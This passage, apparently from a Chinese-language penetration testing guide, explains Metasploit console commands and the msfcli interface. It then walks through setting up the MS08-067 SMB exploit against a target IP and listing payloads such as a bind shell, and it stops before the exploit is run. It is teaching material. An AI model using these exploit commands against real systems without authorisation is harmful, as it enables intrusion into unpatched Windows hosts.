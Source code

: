 | `setgparam value` | 在框架中全局设置参数值，以供所有利用和辅助模块使用。 |
| `unsetparam` | 它是`set`命令的反向。您也可以使用`unset all`命令一次重置所有变量。 |
| `unsetgparam` | 取消设置一个或多个全局变量。 |
| `sessions` | 能够显示、交互和终止目标会话。使用`-l`进行列出，使用`-i` ID 进行交互，使用`-k` ID 进行终止。 |
| `search string` | 通过模块名称和描述提供搜索功能。 |
| `use module` | 在渗透测试环境中选择特定模块。 |

我们将在接下来的部分演示一些这些命令的实际用法。重要的是要理解它们在框架内不同模块集的基本用法。

# MSFCLI

与 MSFConsole 界面一样，CLI 提供了各种模块的广泛覆盖，可以在任何一个实例中启动。但是，它缺少 MSFConsole 的一些高级自动化功能。

要访问`msfcli`，请使用终端执行以下命令：

```
 # msfcli -x 
```

这将显示所有可用模式，类似于 MSFConsole，并提供选择特定模块和设置其参数的用法说明。请注意，所有变量或参数都应遵循`param=value`的约定，并且所有选项都区分大小写。我们提供了一个小练习来选择和执行特定的利用：

```
 # msfcli windows/smb/ms08_067_netapi O
    [*] Please wait while we load the module tree...

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       RHOST                     yes       The target address
       RPORT    445              yes       Set the SMB service port
    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER,  SRVSVC) 
```

在前面命令的末尾使用`O`指令框架显示所选利用的可用选项。以下命令使用`RHOST`参数设置目标 IP：

```
 # msfcli windows/smb/ms08_067_netapi RHOST=192.168.0.7 P
    [*] Please wait while we load the module tree...

    Compatible payloads
    ===================

       Name                             Description
       ----                             -----------
    generic/debug_trap               Generate a debug trap in the target process
    generic/shell_bind_tcp           Listen for a connection and spawn a command shell
    ... 
```

最后，在使用`RHOST`参数设置目标 IP 之后，是时候选择兼容的有效载荷并执行我们的利用了：
